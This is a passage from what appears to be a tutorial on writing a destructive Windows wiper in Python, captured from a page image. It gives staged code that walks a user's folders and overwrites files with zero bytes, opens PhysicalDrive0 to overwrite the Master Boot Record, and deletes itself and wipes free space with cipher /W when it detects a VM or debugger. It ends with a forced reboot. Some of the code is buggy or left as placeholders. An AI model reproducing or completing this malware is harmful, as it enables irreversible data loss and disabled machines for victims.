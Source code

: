 ```python
def SetFiles():
                for dirpath, dirs, files in os.walk(f"C:\\Users\\{os.getlogin()}\\{os.getcwd()}"):
                    for f in files:
                        path = os.path.abspath(os.path.join(dirpath, f))
                            if f.endswith(tuple(ext)):
                                with open(f, "rb") as files:
                                    data = files.read()
                                    files.close()
                                with open(f, "wb") as files:
                                    data.write(b'\x00') # Overwrites multiple files with zero bytes
                                    data.close()
```

### Stage 2 - Destroy MBR​
- The master boot record. The [Master Boot Record 1](https://en.wikipedia.org/wiki/Master_boot_record) is vital for a computer’s hard drive and it contains information about how to store files and what the computer should do when it starts up. Without the guidance of the master boot, it’s almost impossible for the machine to function properly

  
```python
def OverWriteMBR():
    hDevice = Kernel32.CreateFileW("\\\\.\\PhysicalDrive0", 0x40000000, 0x00000001 | 0x00000002, None, 3, 0,0)
        Kernel32.WriteFile(hDevice, Data, None)
        Kernel32.CloseHandle(hDevice)
```

Create a handle to our Physical Drive ``hDevice = Kernel32.CreateFileW("\\\\.\\PhysicalDrive0", 0x40000000, 0x00000001 | 0x00000002, None, 3, 0,0) `` 
For overwriting the MBR ``Kernel32.WriteFile(hDevice, Data = {Hexadecimal 512 bytes}`` and close the handle to our Physical Drive! ``Kernel32.CloseHandle(hDevice)``
  
You can defined later  

```python
Data = [];  # 512 bytes
```

### Stage 3 - Remove self​
Simple function wich will called any time the program detect a vm or debuger and will be used to finaly delete the program  
  
```python
def CommitSuicide():
    file_path = os.path.abspath(__file__)
    os.remove(file_path)
    folder_path = os.path.dirname(file_path)
    os.system("cipher /W:%s" % folder_path)
```

  
### Stage 4 - Shut it down!
Finaly the infected system should reboot immediately  
